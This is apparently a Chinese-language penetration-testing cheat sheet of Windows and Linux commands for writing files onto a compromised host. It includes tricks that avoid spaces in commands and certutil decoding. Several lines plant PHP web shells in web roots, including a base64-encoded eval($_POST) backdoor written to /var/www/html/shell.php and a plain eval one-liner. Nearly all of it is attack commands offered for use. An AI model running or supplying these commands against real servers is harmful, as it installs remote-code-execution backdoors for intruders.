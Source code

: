   ### Windows
	读文本文件：
	>file = Get-Content "1.txt"
	>file
	写文件
	>powershell Set-content "1.txt" "wocao"
	&
	>powershell "write-output ([System.Text.Encoding]::Unicode.GetString([System.Convert]::FromBase64String(\"d2Vic2hlbGw=\"))) | out-file -filepath c:\www\wwwroot\1.aspx;"
	或
	>set /p=^<?php phpinfo()?^><nul>c:\1.php
	或
	>echo ^<?php phpinfo()?^>>c:\1.php
	追加内容
	>echo 111>>c:\1.php
	不换行追加
	>set /p="222">>c:\1.php
	分段不换行追加
	>echo|set /p=\"PCFET0NUWVBFIGh0bWw+IDxodG1sPiA8aGVhZD4gPG1ldGEgaHR0cC1lcXVpdj0iQ29udGVudC1UeXBlIiBjb250ZW50PSJ0ZXh0L2h0bWw7IGNoYXJzZXQ9dXRmLTgiIC8+PGgxPjIwMjHlubR4eHjnvZHnu5zlronlhajlrp7miJjmvJTnu4M8L2gxPg==\" > D:\www\1.txt
	读/写入命令无空格
	>type;c:\1.php
	>echo.111>>c:\1.php
	>echo,111>>c:\1.php
	写入特殊字符
	>certutil -f -decode 1.txt C:\\1.php
	>certutil -decodehex 1.txt C:\\1.php
  ### Linux
  	>echo PD9waHAgZXZhbCgkX1BPU1Rbd2hvYW1pXSk7Pz4=|base64 -d > /var/www/html/shell.php
	>echo \<\?php eval\(\@\$_POST\[1\]\)\; \?\> >1.php